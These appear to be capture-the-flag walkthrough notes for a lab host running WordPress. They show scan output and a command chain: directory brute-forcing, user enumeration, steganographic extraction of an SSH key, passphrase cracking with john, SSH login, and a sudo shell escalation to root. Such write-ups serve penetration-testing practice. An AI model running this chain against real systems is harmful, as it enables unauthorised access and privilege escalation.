

## nmap
nmap -sC -sV 10.10.10.10
```
Starting Nmap 7.80 ( https://nmap.org ) at 2020-04-08 21:19 EDT
Nmap scan report for 10.10.10.10
Host is up (0.46s latency).
Not shown: 998 filtered ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 ec:f7:9d:38:0c:47:6f:f0:13:0f:b9:3b:d4:d6:e3:11 (RSA)
|   256 cc:fe:2d:e2:7f:ef:4d:41:ae:39:0e:91:ed:7e:9d:e7 (ECDSA)
|_  256 8d:b5:83:18:c0:7c:5d:3d:38:df:4b:e1:a4:82:8a:07 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-generator: WordPress 4.7.3
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Job Portal &#8211; Just another WordPress site
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 66.67 seconds
```

## gobuster
```
/root/go/bin/gobuster dir -u http://10.10.10.10/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -x php,txt,html -t 50
```




wpscan --url http://10.10.10.10/ --enumerate u

python exploit.py (HackerAccessGranted)

steghide extract -sf HackerAccessGranted.jpg

locate ssh2john

/usr/share/john/ssh2john.py id_rsa > takis.hash

john takis.hash --wordlist=/usr/share/wordlists/rockyou.txt (superpassword)

ssh -i id_rsa takis@10.10.10.10

sudo -l

file /bin/fuckin

cat /bin/fuckin

sudo /bin/fuckin /bin/bash
